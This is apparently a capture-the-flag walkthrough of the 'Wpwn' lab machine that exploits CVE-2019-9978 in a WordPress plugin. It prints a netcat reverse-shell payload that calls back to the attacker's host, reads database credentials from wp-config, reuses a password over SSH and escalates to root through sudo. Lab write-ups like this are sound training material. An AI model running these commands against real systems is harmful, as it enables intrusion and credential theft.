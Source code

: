 # Wpwn

## Nmap

```
sudo nmap   192.168.178.123 -p- -sS -sV          

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Running `curl` on port 80 simply shows a basic greeting for the machine by the creator.

![](<../../../.gitbook/assets/image (1587) (1).png>)

With nothing else interesting we move onto directory enumeration with `dirsearch.py`.

```
sudo python3 dirsearch.py -u http://192.168.178.123/ -w /usr/share/seclists/Discovery/Web-Content/common.txt --full-url -t 75
```

![](<../../../.gitbook/assets/image (1588).png>)

With the common.txt wordlists we hit robots.txt and /wordpress. Robots contains no interesting information.

Moving over to the /wordpress directory we get the following page.

![/wordpress](<../../../.gitbook/assets/image (1589).png>)

Other than this the Wordpress site contains no interesting information. From here we can run `WPScan` in order to try and identify further information.

```
wpscan --url http://192.168.178.123/wordpress/ --passwords /usr/share/wordlists/rockyou.txt   
```

`WPScan` picks up the plugin 'social-warfare' as being installed and out of date.

![](<../../../.gitbook/assets/image (1590).png>)

Checking this against `searchsploit` reveals a RCE against the running version.

```
searchsploit -w social warfare 3.5.2
```

![](<../../../.gitbook/assets/image (1591).png>)

The vulnerability has been assigned CVE-2019-9978.

Description:

The social-warfare plugin before 3.5.3 for WordPress has stored XSS via the wp-admin/admin-post.php?swp\_debug=load\_options swp\_url parameter, as exploited in the wild in March 2019. This affects Social Warfare and Social Warfare Pro.

The following GitHub shows a PoC for this exploit.

{% embed url="https://github.com/hash3liZer/CVE-2019-9978" %}

As per the GitHub description we need to create a text file that will be hosted on our attacking machine with the contents of what we want to execute.

```
<pre>system('command')</pre>
```

First I hosted a `Python SimpleHTTPServer` on my attacking machine.

```
sudo python2 -m SimpleHTTPServer 443
```

I then downloaded the associated Python script and executed as per below.

```
python2 cve-2019-9978.py  --target http://192.168.178.123/wordpress/ --payload-uri http://192.168.49.178:443/test.txt
```

![](<../../../.gitbook/assets/image (1592).png>)

In the example above the command included for test.txt was `'id'`. From here I replaced the command with `'which nc'` to see if `netcat` is on the target machine and then run the exploit again.

![](<../../../.gitbook/assets/image (1593).png>)

As `netcat` is installed we can replace the command in the test.txt file with that of a `netcat` reverse shell.

Contents of test.txt:

```
<pre>system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.49.178 80 >/tmp/f')</pre>
```

I then set a `netcat` listener on my attacking machine:

```
sudo nc -lvp 80
```

Running the exploit again hangs the script as we receive a reverse shell.

![](<../../../.gitbook/assets/image (1594).png>)

![](<../../../.gitbook/assets/image (1595).png>)

We then upgrade the shell:

```
/usr/bin/script -qc /bin/bash /dev/null
```

Moving back one directory in the shell we can then read the contents of wp-config for any `MySQL` database credentials.

![](<../../../.gitbook/assets/image (1596).png>)

We have gathered the credentials: `wp_user:R3&]vzhHmMn9,:-5` From here I logged into `MySQL` and took the Wordpress administrator's hash. I was however, unable to crack. Looking on the box we have the user 'takis' I decided to see if password reuse was in play and `SSH` in as takis.

```
ssh takis@192.168.178.123
```

![](<../../../.gitbook/assets/image (1597).png>)

Now we are in as takis I then run `sudo -l` to check `sudo` permissions.

![](<../../../.gitbook/assets/image (1598).png>)

Looks like we can run all commands as any users without a password. A simple `sudo /bin/bash` will spawn us a root shell.

![](<../../../.gitbook/assets/image (1599).png>)
